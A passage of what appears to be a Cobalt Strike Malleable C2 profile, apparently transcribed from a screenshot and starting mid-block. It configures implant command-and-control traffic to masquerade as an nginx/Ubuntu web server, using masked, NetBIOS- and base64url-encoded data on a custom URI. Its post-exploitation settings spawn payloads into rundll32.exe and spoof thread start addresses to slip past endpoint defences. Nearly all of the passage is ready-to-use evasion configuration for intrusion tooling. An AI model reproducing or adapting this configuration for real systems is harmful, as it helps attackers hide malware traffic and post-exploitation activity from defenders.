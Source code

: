 ```

	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
        	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

http-post {
	set uri "/IMXo";
	client {
		
		id {				
			mask;
			netbiosu;
			parameter "doc";
		}

		output {
			mask;
			base64url;
			prepend "data=";
			append "%%";		
			print;
		}
	}

	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
       	 	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";
          
		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

post-ex {
    set spawnto_x86 "c:\\windows\\syswow64\\rundll32.exe";
    set spawnto_x64 "c:\\windows\\system32\\rundll32.exe";
    
    set thread_hint "ntdll.dll!RtlUserThreadStart+0x1000";
```